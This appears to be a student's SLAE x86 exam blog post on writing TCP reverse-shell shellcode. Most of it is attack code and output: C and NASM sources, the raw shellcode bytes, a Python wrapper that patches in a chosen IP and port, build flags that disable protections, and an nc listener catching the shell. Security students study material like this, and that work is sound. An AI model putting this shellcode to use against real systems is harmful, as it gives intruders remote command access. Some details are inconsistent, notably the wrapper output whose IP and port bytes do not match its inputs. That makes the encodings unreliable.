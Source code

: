 ```yaml
---
layout: post
title:  "SLAE x86 Exam - Assignment 2"
categories: certs slae 
---
```



## Assignment #2 - TCP reverse shell
_Student ID: **PA-7854**_

The assignment indications are as follows:
* _Create a reverse shell TCP shellcode, where IP and port should be easily configurable_

This is somehow similar to the first assignment, but we need to add the IP parameter in both the Assembly code and the Python wrapper.

In summary, these are the steps  we will take in order to achieve the reverse TCP shell:
1. Writing a reverse shell in C 
2. Analyzing code
3. Replicating in Assembly
4. IP and Port wrapper


The code is available at [my github repo](https://github.com/0xKiewicz/SLAE)

#### 1. Writing a bind shell in C 

rev_shell.c
```c
  int sockfd;
  struct sockaddr_in remote_addr;
  sockfd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
  remote_addr.sin_family = AF_INET; // ipv4
  remote_addr.sin_port = htons(RPORT); // port in the correct endianness
  remote_addr.sin_addr.s_addr = inet_addr(RHOST);
  connect(sockfd, (struct sockaddr*) &remote_addr, sizeof(remote_addr));
  dup2(sockfd, 0); // stdin
```

We compile and run it, just to verify it's working and to ease the next step:

```bash
$ gcc -o rev_shell rev_shell.c
$ ./rev_shell
^C
```
Now it's time to analyze syscalls.

#### 2. Analyzing code
Since I've done this tedious work already, i just need to add the `connect` syscall which equals `0x16a` (362 in decimal) and the IP, which in this case i chose `127.1.1.1` to avoid NULL chars. 
```nasm
mov ax, 0x16a 		; connect syscall
push dword 0x0101017f   ; host 127.1.1.1 
```

#### 3. Replicating in Assembly
This time I decided to use _procedures_ and a loop for the `dup2` syscall in the NASM file.

```nasm
dup2:
        ; dup2(sockfd, 0); // stdin
        ; dup2(sockfd, 1); // stdout
        ; dup2(sockfd, 2); // stderr
        xor ecx, ecx            ; Clearing out ECX to initialize counter
        mov cl, 0x2             ; stdin, stdout and stderr
        xor eax, eax
dup2_fd:
        mov al, 0x3f            ; syscall 63
        int 0x80
        dec cl                  ; cl = cl - 1
        jns dup2_fd             ; jump back if not SF = 0

```		

After assembling and linking it, I validate just to see it works:
![Reverse shell](/assets/rev_shell.png)


Then I get the shellcode:
```bash
$ for i in $(objdump -d -M intel $f | grep "^ " | cut -f2); do echo -n '\\x'$i; done
\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x31\xff\x66\xb8\x67\x01\xb3\x02\xb1\x01\xb2\x06\xcd\x80\x89\xc3\x68\x7f\x01\x01\x01\x66\x68\x30\x39\x66\x6a\x02\x89\xe1\x66\xb8\x6a\x01\xb2\x10\xcd\x80\x31\xc9\xb1\x02\x31\xc0\xb0\x3f\xcd\x80\xfe\xc9\x79\xf8\x31\xc9\xb0\x0b\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xf1\x89\xf2\xcd\x80
```
It does not contain NULL bytes, great! We can move forward.

#### 3. IP and Port wrapper
We need to tweak the Python wrapper from _assignment 1_ eases the IP-Port configuration as desired. Here are some changes made to the script:

```python
import socket
import binascii
ip = str(sys.argv[1])
port = int(sys.argv[2])
--snip--

ip = binascii.hexlify(socket.inet_aton(ip)).replace('00','')

--snip--
splitted[ip_offset:ip_offset+16] = '\\x' + str(ip[0:2]) + '\\x' + str(ip[2:4]) + '\\x' + str(ip[4:6]) + '\\x' + str(ip[6:8]) 

```

We just verify it's working:
```bash
$ python rev_shell_ip_port_wrapper.py 127.1.1.1 9797

New shellcode is: 
\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x31\xff\x66\xb8\x67\x01\xb3\x02\xb1\x01\xb2\x06\xcd\x80\x89\xc3\x68\x7f\x07\x07\x01\x66\x68\x23\x82\x66\x6a\x02\x89\xe1\x66\xb8\x6a\x01\xb2\x10\xcd\x80\x31\xc9\xb1\x02\x31\xc0\xb0\x3f\xcd\x80\xfe\xc9\x79\xf8\x31\xc9\xb0\x0b\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xf1\x89\xf2\xcd\x80
```

We can add this to he `shellcode.c` file, compile and run to verify...
```bash
$ vim shellcode.c
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
$ ./shellcode
Shellcode Length:  85
```

```bash
$ nc -nvlp 9797
listening on [any] 9797 ...
connect to [127.1.1.1] from (UNKNOWN) [127.0.0.1] 44420
```




